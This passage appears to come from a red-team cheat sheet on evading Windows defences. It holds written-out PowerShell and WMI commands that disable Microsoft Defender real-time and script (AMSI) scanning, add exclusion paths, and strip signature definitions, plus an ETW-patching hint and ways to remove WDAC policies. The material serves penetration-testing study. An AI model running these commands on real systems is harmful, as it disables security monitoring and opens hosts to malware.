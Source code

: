 The most common bypassing technique is patching the function `EtwEventWrite` which is called to write/log ETW events. You can list the providers registered for a process with `logman query providers -pid <PID>`


## Windows Defender Antivirus

Also known as `Microsoft Defender`.

```powershell
# check status of Defender
PS C:\> Get-MpComputerStatus

# disable scanning all downloaded files and attachments, disable AMSI (reactive)
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true

# disable AMSI (set to 0 to enable)
PS C:\> Set-MpPreference -DisableScriptScanning 1 

# exclude a folder
PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"

# exclude using wmi
PS C:\> WMIC /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath="C:\Users\Public\wmic"

# remove signatures (if Internet connection is present, they will be downloaded again):
PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```


## Windows Defender Application Control

Also known as `WDAC/UMCI/Device Guard`.

> Windows Defender Application Guard, formerly known as Device Guard has the power to control if an application may or may not be executed on a Windows device. WDAC will prevent the execution, running, and loading of unwanted or malicious code, drivers, and scripts. WDAC does not trust any software it does not know of.


* Get WDAC current mode
    ```ps1
    $ Get-ComputerInfo
    DeviceGuardCodeIntegrityPolicyEnforcementStatus         : EnforcementMode
    DeviceGuardUserModeCodeIntegrityPolicyEnforcementStatus : EnforcementMode
    ```
* Remove WDAC policies using CiTool.exe (Windows 11 2022 Update)
    ```ps1
    $ CiTool.exe -rp "{PolicyId GUID}" -json
    ```
* Device Guard policy location: `C:\Windows\System32\CodeIntegrity\CiPolicies\Active\{PolicyId GUID}.cip`
* Device Guard example policies: `C:\Windows\System32\CodeIntegrity\ExamplePolicies\`
* WDAC utilities: [mattifestation/WDACTools](https://github.com/mattifestation/WDACTools), a PowerShell module to facilitate building, configuring, deploying, and auditing Windows Defender Application Control (WDAC) policies
* WDAC bypass techniques: [bohops/UltimateWDACBypassList](https://github.com/bohops/UltimateWDACBypassList)
    * [nettitude/Aladdin](https://github.com/nettitude/Aladdin) - WDAC Bypass using AddInProcess.exe
